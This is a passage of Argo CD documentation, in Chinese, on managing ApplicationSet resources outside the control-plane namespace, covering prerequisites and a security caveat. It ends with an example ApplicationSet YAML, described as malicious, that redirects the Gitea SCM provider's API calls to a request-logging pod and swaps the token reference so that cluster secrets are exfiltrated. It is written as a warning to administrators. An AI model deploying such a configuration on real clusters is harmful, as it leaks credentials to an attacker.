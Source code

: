 
# 任意名称空间中的 ApplicationSet

**当前功能状态**：测试版

警告 在启用此功能之前，请仔细阅读本文档。 配置错误可能会导致潜在的安全问题。

## 简介

从 2.8 版开始，Argo CD 支持在控制平面名称空间（通常是 `argocd`）以外的名称空间中管理 `ApplicationSet` 资源，但必须显式启用此功能并进行适当配置。

Argo CD 管理员可以定义一组特定的 namespace，在这些 namespace 中可以创建、更新和调节 `ApplicationSet` 资源。

由于 ApplicationSet 生成的应用程序与 ApplicationSet 本身在同一命名空间中生成，因此可与 [App in any namespace](../app-any-namespace.md) 结合使用。

## 先决条件

#### 应用程序在任何 namespace 中配置

此功能需要激活 [App in any namespace](../app-any-namespace.md) 功能。 命名空间列表必须相同。

### 集群范围的 Argo CD 安装

该功能只有在 Argo CD ApplicationSet 控制器作为集群范围的实例安装时才能启用和使用，因此它拥有在集群范围内列出和操作资源的权限。 如果 Argo CD 以名称空间范围模式安装，则无法使用该功能。

### SCM Providers secrets consideration

如果允许在任何名称空间中使用 ApplicationSet，就必须注意任何秘密都可能被`scmProvider`或`pullRequest`生成器外泄。

下面就是一个例子：

```yaml
apiVersion: argoproj.io/v1alpha1
kind: ApplicationSet
metadata:
  name: myapps
spec:
  goTemplate: true
  goTemplateOptions: ["missingkey=error"]
  generators:
  - scmProvider:
      gitea:
        # The Gitea owner to scan.
        owner: myorg
        # With this malicious setting, user can send all request to a Pod that will log incoming requests including headers with tokens
        api: http://my-service.my-namespace.svc.cluster.local
        # If true, scan every branch of every repository. If false, scan only the default branch. Defaults to false.
        allBranches: true
        # By changing this token reference, user can exfiltrate any secrets
        tokenRef:
          secretName: gitea-token
          key: token
  template:
```

